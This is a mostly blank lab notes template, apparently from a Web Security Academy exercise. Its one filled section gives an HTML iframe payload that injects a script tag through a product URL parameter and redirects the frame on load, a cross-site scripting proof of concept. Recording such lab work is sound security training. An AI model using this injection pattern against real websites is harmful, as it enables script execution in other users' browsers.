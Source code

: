 # LAB:

## Objective:

## Key Concepts:

## Steps Taken:

## Payloads Used:

```html
<iframe
  src="https://0a15009c03fb988e8044cb2000f10094.web-security-academy.net/product?productId=2&'><script>print()</script>"
  onload='if(!window.x){window.location="https://0a15009c03fb988e8044cb2000f10094.web-security-academy.net/"};window.x=1;'></iframe>
```

## Issues Encountered:

## Solutions/Workarounds:

## Takeaways:
